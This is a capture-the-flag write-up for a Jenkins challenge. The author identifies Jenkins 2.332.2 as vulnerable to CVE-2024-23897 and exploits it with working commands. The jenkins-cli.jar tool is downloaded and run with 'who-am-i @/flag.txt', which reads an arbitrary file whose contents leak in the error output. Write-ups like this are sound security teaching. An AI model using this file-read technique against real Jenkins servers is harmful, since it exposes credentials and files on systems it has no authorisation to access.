



# Devops

## The Best Butler

[](bestbutlerchall.png)

Looking at the page it was a Jenkins instance. 

[](jenkins.png)

I tried using the script console to get code execution but I was met with this error around missing crumb.  

[](crumb.png)

I tried getting a valid crumb and sending the request again but it wasn't working for me.  

I noticed the version of jenkins running `Jenkins 2.332.2`.

This is vulnerable to CVE-2024-23897 [https://www.jenkins.io/security/advisory/2024-01-24/](https://www.jenkins.io/security/advisory/2024-01-24/)

There are some POC's available which werent working for me so I exploited it manually by first of all downloading the cli-jar.

```bash
wget http://challenge.nahamcon.com:30192/jnlpJars/jenkins-cli.jar
```

Then with this I was able to leak the flag.txt files contents.

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s http://challenge.nahamcon.com:30192 who-am-i @/flag.txt
May 23, 2025 11:27:41 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.

ERROR: No argument is allowed: flag{ab63a76362c3972ac83d5cb8830fdb51}
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```

